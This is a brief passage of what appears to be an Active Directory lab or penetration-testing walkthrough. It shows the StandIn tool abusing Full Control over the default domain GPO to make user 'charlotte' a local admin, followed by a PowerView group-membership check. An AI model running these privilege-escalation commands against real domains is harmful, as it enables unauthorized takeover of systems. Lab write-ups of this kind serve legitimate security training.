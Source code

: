 Since we have Full Control over this GPO, we can elevate our privileges to admin. 

`./StandIn_v13_Net45.exe --GPO --filter "default domain policy" --localadmin charlotte`

![](assets/Pasted%20image%2020250801230850.png)

A quick check with the PowerView module helps us see that charlotte is an admin too! `C:\temp\payloads> get-domaingroupmember -Identity "Administrators"`

![](assets/Pasted%20image%2020250801230440.png)
